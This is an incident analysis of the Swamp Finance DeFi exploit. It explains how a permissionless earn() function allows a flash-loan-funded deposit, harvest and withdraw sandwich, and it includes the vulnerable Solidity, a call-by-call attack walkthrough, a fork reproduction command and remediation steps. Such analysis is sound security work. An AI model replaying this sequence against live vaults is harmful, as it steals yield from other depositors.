


# Swamp Finance Exploit — Atomic `earn()` Harvest-Sandwich on `StrategyBelt_Token`

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains many PoCs that
> do not compile together, so this one was extracted).
> Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [StrategyBelt_Token.sol](sources/StrategyBelt_Token_dA937D/StrategyBelt_Token.sol).

---

## Key info

| | |
|---|---|
| **Loss** | **+0.548 WBNB per reproduced cycle** (≈ $110 at the time). The live attack repeated the cycle with flash-loaned + leveraged capital; SlowMist/MetaSec recorded the cumulative drain as the Swamp Finance incident. PoC `@KeyInfo` marks the total as "Unclear". |
| **Vulnerable contract** | `StrategyBelt_Token` (a Swamp Finance strategy) — [`0xdA937DDD1F2bd57F507f5764a4F9550c750F7B31`](https://bscscan.com/address/0xdA937DDD1F2bd57F507f5764a4F9550c750F7B31#code) |
| **Entry farm** | `NativeFarm` (Swamp MasterChef) — [`0x33adbf5f1ec364a4ea3a5ca8f310b597b8afdee3`](https://bscscan.com/address/0x33adbf5f1ec364a4ea3a5ca8f310b597b8afdee3#code) (pid `135`) |
| **Manipulated asset** | `beltBNB` MultiStrategyToken (the strategy's `want`) — [`0xa8Bb71facdd46445644C277F9499Dd22f6F0A30C`](https://bscscan.com/address/0xa8Bb71facdd46445644C277F9499Dd22f6F0A30C#code) |
| **Attacker EOA** | `0xfe2105e1317dfd6ed3887bf7882977c03cfebb7c` |
| **Attacker contract** | `0x22ad9eef79615a1592e969bdf7b238a07281ab80` |
| **Attack tx** | `0x13e75878a21af9a9b2207f5d9e18f19a43083a9ffbac36df5a7d4d67a52c164f` |
| **Chain / fork block / date** | BSC / 33,112,358 / ~Nov 2, 2023 |
| **Compiler** | Solidity v0.6.12, optimizer **off** (`runs: 200`) |
| **Bug class** | Permissionless atomic compounding (`earn()`) → share value-per-token inflation harvested in a single deposit→earn→withdraw sandwich, amplified by flash-loaned leverage |

---

## TL;DR

Swamp Finance's `StrategyBelt_Token` is an auto-compounding yield strategy. It accounts user
positions with the classic `wantLockedTotal` / `sharesTotal` share model:

- **Deposit** mints `sharesAdded = wantAmt · sharesTotal / wantLockedTotal`
  ([StrategyBelt_Token.sol:1204-1220](sources/StrategyBelt_Token_dA937D/StrategyBelt_Token.sol#L1204-L1220)).
- **Withdraw** redeems `amount = shares · wantLockedTotal / sharesTotal`
  (computed by `NativeFarm.withdraw`, [NativeFarm.sol:1659](sources/NativeFarm_33adbf/NativeFarm.sol#L1659)).
- **`earn()`** harvests the external BELT farm, swaps the rewards back to `want`, and re-invests
  them via `_farm()`, which does `wantLockedTotal = wantLockedTotal.add(wantAmt)` **without minting
  any new shares** ([StrategyBelt_Token.sol:1246](sources/StrategyBelt_Token_dA937D/StrategyBelt_Token.sol#L1246)).

Adding `want` to `wantLockedTotal` while `sharesTotal` is unchanged is exactly how a vault credits
yield: it raises the value-per-share for everyone holding shares **at that instant**. The fatal flaw
is that **`earn()` is permissionless and can be called atomically between a deposit and a withdrawal
in the same transaction** ([StrategyBelt_Token.sol:1293](sources/StrategyBelt_Token_dA937D/StrategyBelt_Token.sol#L1293) —
`function earn() public nonReentrant whenNotPaused`, no `onlyOwner`/keeper gate).

So an attacker:

1. **Deposits a large position** to capture a dominant fraction of `sharesTotal` (75.3% in the PoC).
2. **Calls `earn()`** to crystallise pending farm rewards into `wantLockedTotal` *now*, instead of
   letting them stream to honest LPs over time.
3. **Withdraws immediately** at the freshly inflated value-per-share, pocketing the harvest yield
   that should have accrued to the LPs who were staked through the reward-accrual period.

To make a per-cycle skim worth the gas, the attacker borrows working capital: a **DODO (DPP)
flash loan** of 3,100 WBNB + 150,000 BUSDT, plus a **Venus** loop (mint vUSDT collateral → borrow
500 BNB) — turning ~3,600 WBNB of transient capital into a single deposit→earn→withdraw round
that returns **3,600.549 WBNB**, a clean **+0.548 WBNB**, with all loans repaid in-tx.

---

## Background — what the system does

`NativeFarm` is Swamp's AutoFarm/MasterChef fork ([NativeFarm.sol:1415](sources/NativeFarm_33adbf/NativeFarm.sol#L1415)).
Users `deposit(pid, wantAmt)` and the farm forwards the `want` to a per-pool **strategy** that
auto-compounds it. For pid `135` the strategy is `StrategyBelt_Token`, whose `want` is
**`beltBNB`** — itself a Belt Finance `MultiStrategyToken`
([MultiStrategyToken.sol:1419](sources/MultiStrategyToken_a8Bb71/MultiStrategyToken.sol#L1419)) that
wraps WBNB and farms it across Belt's sub-strategies.

The strategy holds two accounting scalars
([StrategyBelt_Token.sol:1094-1095](sources/StrategyBelt_Token_dA937D/StrategyBelt_Token.sol#L1094-L1095)):

```solidity
uint256 public wantLockedTotal = 0;   // storage slot 15
uint256 public sharesTotal = 0;       // storage slot 16
```

State read from the fork at block 33,112,358, right before the attacker's deposit (decoded from the
trace's storage diffs):

| Scalar | Value (wei) | Meaning |
|---|---:|---|
| `sharesTotal` (slot 16) | 729,506,762,119,361,275,057 | ≈ 729.5 shares outstanding |
| `wantLockedTotal` (slot 15) | 1,044,524,883,239,570,696,090 | ≈ 1,044.5 beltBNB managed |

Value-per-share ≈ `1044.5 / 729.5 ≈ 1.4318` beltBNB/share. Pending, not-yet-harvested BELT rewards
sat in the external Belt farm — value that *should* accrue gradually to existing share holders when
`earn()` is eventually run.

---

## The vulnerable code

### 1. Deposit mints shares against the *current* `wantLockedTotal`

[StrategyBelt_Token.sol:1186-1225](sources/StrategyBelt_Token_dA937D/StrategyBelt_Token.sol#L1186-L1225):

```solidity
function deposit(address _userAddress, uint256 _wantAmt)
    public onlyOwner nonReentrant whenNotPaused returns (uint256)
{
    IERC20(wantAddress).safeTransferFrom(msg.sender, address(this), _wantAmt);
    ...
    uint256 sharesAdded = _wantAmt;
    if (wantLockedTotal > 0) {
        sharesAdded = _wantAmt
            .mul(sharesTotal)
            .mul(entranceFeeFactor)
            .div(wantLockedTotal)            // ← shares priced off CURRENT wlt
            .div(entranceFeeFactorMax);
        ...
    }
    sharesTotal = sharesTotal.add(sharesAdded);
    _farm();
    return sharesAdded;
}
```

### 2. `earn()` — permissionless, credits yield into `wantLockedTotal` with NO new shares

[StrategyBelt_Token.sol:1293-1324](sources/StrategyBelt_Token_dA937D/StrategyBelt_Token.sol#L1293-L1324)
and [`_farm()` 1231-1247](sources/StrategyBelt_Token_dA937D/StrategyBelt_Token.sol#L1231-L1247):

```solidity
function earn() public nonReentrant whenNotPaused {   // ⚠️ NO access control / no cooldown
    IMasterBelt(farmContractAddress).withdraw(pid, 0); // harvest BELT
    uint256 earnedAmt = IERC20(earnedAddress).balanceOf(address(this));
    earnedAmt = distributeFees(earnedAmt);
    earnedAmt = buyBack(earnedAmt);
    ...
    _safeSwap(... earnedToWantPath ...);               // BELT → WBNB → want
    lastEarnBlock = block.number;
    _farm();                                           // re-invest harvested want
}

function _farm() internal {
    ...
    uint256 wantAmt = IERC20(wantAddress).balanceOf(address(this));
    IMasterBelt(farmContractAddress).deposit(pid, wantAmt);
    wantLockedTotal = wantLockedTotal.add(wantAmt);    // ⚠️ wlt ↑, sharesTotal unchanged
}
```

### 3. Withdraw redeems against the *inflated* `wantLockedTotal`

`NativeFarm.withdraw` computes the redeemable `want` from the share ratio, then calls the strategy:

[NativeFarm.sol:1642-1681](sources/NativeFarm_33adbf/NativeFarm.sol#L1642-L1681):

```solidity
uint256 wantLockedTotal = IStrategy(pool.strat).wantLockedTotal();
uint256 sharesTotal     = IStrategy(pool.strat).sharesTotal();
...
uint256 amount = user.shares.mul(wantLockedTotal).div(sharesTotal);   // ← reads INFLATED wlt
if (_wantAmt > amount) { _wantAmt = amount; }
...
IStrategy(pool.strat).withdraw(msg.sender, _wantAmt);   // pulls `amount` want back out
```

---

## Root cause

A share-based vault is only safe to credit yield (`wantLockedTotal += harvest`, shares unchanged)
**when the action that triggers the credit is not controllable, in the same transaction, by a
freshly-entered depositor.** Three design decisions compose into the bug:

1. **`earn()` is permissionless** ([:1293](sources/StrategyBelt_Token_dA937D/StrategyBelt_Token.sol#L1293)).
   Anyone, at any time, can force the strategy to crystallise pending external rewards into
   `wantLockedTotal`. There is no keeper-only restriction and no per-block / cooldown guard
   (`lastEarnBlock` is recorded but never *enforced*).
2. **`_farm()` credits yield as a pure `wantLockedTotal` increase with no share minting**
   ([:1246](sources/StrategyBelt_Token_dA937D/StrategyBelt_Token.sol#L1246)). That is correct for
   *streaming* yield to long-term holders, but it means whoever holds shares at the instant of the
   credit captures the yield pro-rata — including someone who deposited one call earlier.
3. **Deposit and withdraw use the spot `wantLockedTotal/sharesTotal` ratio with no time-lock.**
   So `deposit → earn → withdraw` in one transaction lets the attacker (a) buy in *before* the
   pending rewards are recognised and (b) sell out *after*, harvesting the delta.

The result is a **value-per-share jump that the attacker front-loads and immediately captures**,
stealing the harvest yield that honest LPs earned by being staked across the reward-accrual window.
The Venus borrow and DODO flash loan are pure leverage — they let the attacker temporarily own a
huge fraction of `sharesTotal`, scaling the per-cycle skim.

---

## Preconditions

- `StrategyBelt_Token.earn()` is callable (not paused) and pending BELT rewards exist in the Belt
  farm. In the PoC the harvest produced ~1.69 beltBNB of fresh `want`.
- The strategy's deposit/withdraw path is reachable by an external caller. `NativeFarm.deposit/
  withdraw` are public; the strategy's own `deposit/withdraw` are `onlyOwner` but the owner is
  `NativeFarm` itself, so routing through the farm is the intended (and only) public path.
- Working capital to acquire a dominant share fraction. The attacker used a **DODO flash loan**
  (3,100 WBNB + 150,000 BUSDT) + a **Venus** mint/borrow loop for 500 BNB, fully repaid in-tx —
  i.e. the attack is **flash-loanable** and needs ~zero seed capital
  ([SwampFinance_exp.sol:83](test/SwampFinance_exp.sol#L83), [:90-112](test/SwampFinance_exp.sol#L90-L112)).

---

## Attack walkthrough (ground-truth numbers from the trace)

All values are wei (1 WBNB / beltBNB = 1e18). Lines reference [output.txt](output.txt).

| # | Step | Call | Concrete numbers |
|---|------|------|------------------|
| 0 | **Flash loan** | `DPPOracle.flashLoan(3100e18 WBNB, 150000e18 BUSDT)` ([:1687](output.txt)) | borrows 3,100 WBNB + 150,000 BUSDT |
| 1 | **Enter Venus & lever** | `enterMarkets`, `vUSDT.mint(150000.15e18)`, `vBNB.borrow(500e18)` ([:1721](output.txt),[:1737](output.txt),[:1805](output.txt)) | mints vUSDT collateral, borrows 500 BNB |
| 2 | **Wrap BNB** | `WBNB.deposit{value: 500e18}` → balance `3600.001 WBNB` ([:1944](output.txt)) | total dry powder = 3,600.001 WBNB |
| 3 | **Buy `beltBNB`** | `beltBNB.deposit(3600.001e18 WBNB, 1)` → mints `3189.8049e18 beltBNB` ([:1951](output.txt)) | beltBNB ppfs ≈ 1.1286 WBNB/beltBNB |
| 4 | **Deposit into Swamp** | `NativeFarm.deposit(135, 3189.806e18 beltBNB)` → strategy mints `sharesAdded = 2225.565e18` ([:2557](output.txt),[:2658 ret](output.txt)) | strat `sharesTotal 729.5 → 2955.07`, `wantLockedTotal 1044.5 → 4234.33` |
| 5 | **⚠️ `earn()`** | `StrategyBeltToken.earn()` harvests BELT, swaps to ~1.689 beltBNB, `_farm()` ([:2664](output.txt)) | `wantLockedTotal 4234.331 → 4236.020`, **`sharesTotal` unchanged** |
| 6 | **Withdraw all** | `NativeFarm.withdraw(135, type(uint).max)` → `amount = 2225.565e18 · 4236.020 / 2955.072 = 3190.291e18 beltBNB` ([:3440](output.txt),[:3508](output.txt)) | redeems **3190.291 beltBNB** vs **3189.806 deposited** = **+0.4844 beltBNB** |
| 7 | **Unwrap & repay** | `beltBNB.withdraw(3190.291e18, 1)` → **3600.549 WBNB** ([:3508](output.txt)); `WBNB.withdraw(500)`, `vBNB.repayBorrow(500)`, `vUSDT.redeemUnderlying`, repay DPP ([:3813-3845](output.txt)) | got back 3,600.549 WBNB for 3,600.001 in |
| 8 | **Profit** | final exploiter WBNB balance `0.5491785 WBNB` ([:3998](output.txt)) | **net +0.548 WBNB** after all loans repaid |

**Share-math reconciliation** (exactly matches the trace):

```
Deposit:  sharesAdded = 3189.806 · 729.5067 / 1044.5249 ≈ 2225.565  ✓ (slot 16: 729.5 → 2955.07)
earn():   wantLockedTotal 4234.331 → 4236.020 (+1.689 beltBNB harvest, shares flat)
Withdraw: amount = 2225.565 · 4236.020 / 2955.072 = 3190.291 beltBNB  ✓ (observed exactly)
Skim:     3190.291 − 3189.806 = 0.4844 beltBNB → 0.548 WBNB after unwrap
```

The attacker owned **2225.565 / 2955.072 = 75.3 %** of `sharesTotal` at the moment `earn()` fired,
so they captured the bulk of the 1.689-beltBNB harvest that should have streamed to the pre-existing
729.5 shares of honest LPs.

### Profit accounting (WBNB)

| Direction | Amount (WBNB) |
|---|---:|
| Deposited into `beltBNB` | 3,600.001 |
| Withdrawn from `beltBNB` | 3,600.549 |
| **Per-cycle gross skim** | **+0.548** |
| Seed capital (dealt) | 0.001 |
| **Net profit (final balance − seed)** | **+0.548** |

DODO flash loan and Venus borrow are repaid to the wei inside the same transaction
([:3813-3859](output.txt)), so the entire round is self-financed.

---

## Diagrams

### Sequence of the attack

```mermaid
sequenceDiagram
    autonumber
    actor A as "Attacker contract"
    participant DPP as "DODO DPPOracle"
    participant V as "Venus (vUSDT/vBNB)"
    participant BB as "beltBNB (MultiStrategyToken)"
    participant NF as "NativeFarm (pid 135)"
    participant ST as "StrategyBelt_Token"
    participant MB as "Belt farm (external)"

    A->>DPP: flashLoan(3100 WBNB + 150000 BUSDT)
    activate DPP
    DPP->>A: DPPFlashLoanCall(...)

    rect rgb(232,245,233)
    Note over A,V: Step 1-2 — build dry powder = 3600.001 WBNB
    A->>V: vUSDT.mint(150000) ; vBNB.borrow(500 BNB)
    A->>A: WBNB.deposit{500 BNB}
    end

    rect rgb(227,242,253)
    Note over A,ST: Step 3-4 — take 75.3% of strategy shares
    A->>BB: deposit(3600.001 WBNB) -> 3189.805 beltBNB
    A->>NF: deposit(135, 3189.806 beltBNB)
    NF->>ST: deposit(attacker, 3189.806)
    Note over ST: sharesTotal 729.5 -> 2955.07<br/>wantLockedTotal 1044.5 -> 4234.33
    end

    rect rgb(255,235,238)
    Note over A,MB: Step 5 — the exploit: atomic harvest credit
    A->>ST: earn()
    ST->>MB: harvest BELT -> swap -> 1.689 beltBNB
    ST->>ST: _farm(): wantLockedTotal += 1.689 (NO new shares)
    Note over ST: wantLockedTotal 4234.33 -> 4236.02<br/>sharesTotal UNCHANGED
    end

    rect rgb(243,229,245)
    Note over A,ST: Step 6 — redeem at inflated value-per-share
    A->>NF: withdraw(135, type(uint).max)
    NF->>ST: withdraw -> 3190.291 beltBNB (> 3189.806 in)
    NF-->>A: 3190.291 beltBNB
    A->>BB: withdraw(3190.291) -> 3600.549 WBNB
    end

    Note over A,DPP: Step 7 — repay 500 BNB to Venus, 3100 WBNB + 150000 BUSDT to DODO
    A->>V: repayBorrow(500 BNB) ; vUSDT.redeemUnderlying
    A->>DPP: transfer back 3100 WBNB + 150000 BUSDT
    deactivate DPP
    Note over A: Net +0.548 WBNB (harvest stolen from honest LPs)
```

### The flaw inside `earn()` / share accounting



### Strategy state evolution (value-per-share)



---

## Remediation

1. **Gate `earn()` to a trusted keeper/role**, or make harvesting non-atomic with user deposit/
   withdraw. If `earn()` must stay public, enforce the recorded `lastEarnBlock`: require at least
   one block (or a real cooldown) between an account's deposit and any `earn()` whose proceeds that
   account can redeem.
2. **Decouple yield recognition from same-transaction redemption.** Add a deposit/withdraw cooldown
   (e.g. shares minted this block cannot be withdrawn until `block.number > depositBlock`), so a
   freshly-entered position cannot capture a harvest it was not staked for.
3. **Stream harvested yield instead of crediting it instantly.** Vesting newly-harvested `want` into
   `wantLockedTotal` linearly over a window removes the step-change in value-per-share that the
   sandwich exploits (the standard "drip/lockedProfit" pattern used by Yearn-style vaults).
4. **Apply meaningful entrance + exit fees** sized above the maximum extractable per-block harvest,
   so an atomic in-and-out is never profitable. (The strategy *has* `entranceFeeFactor` /
   `exitFeeFactor` hooks but they were effectively ~0 at the fork block.)
5. **Treat leverage as in-scope.** Because the per-cycle skim scales with the attacker's share of
   the pool, assume an adversary can flash-borrow arbitrary capital (DODO/Venus here) and design the
   accounting so a single-transaction round is loss-making for the caller.

---

## How to reproduce

```bash
_shared/run_poc.sh 2023-11-SwampFinance_exp --mt testExploit -vvvvv
```

- RPC: a **BSC archive** node is required (fork block 33,112,358 is far in the past); most public
  BSC RPCs prune that state. `foundry.toml` is configured with a working archive endpoint.
- Result: `[PASS] testExploit()`. Exploiter WBNB balance goes from `0.001` → `0.549178…`, i.e.
  **+0.548 WBNB** for the single reproduced cycle, with the DODO flash loan and Venus borrow repaid
  in-transaction.

Expected tail:

```
Ran 1 test for test/SwampFinance_exp.sol:SwampFinanceExploit
[PASS] testExploit() (gas: 3471696)
  Exploiter WBNB balance before attack: 0.001000000000000000
  Exploiter WBNB balance after attack: 0.549178564337632838
Suite result: ok. 1 passed; 0 failed; 0 skipped
```

---

*References: MetaSec — https://x.com/MetaSec_xyz/status/1720373044517208261 ; SlowMist Hacked — https://hacked.slowmist.io/ (Swamp Finance, BSC).*
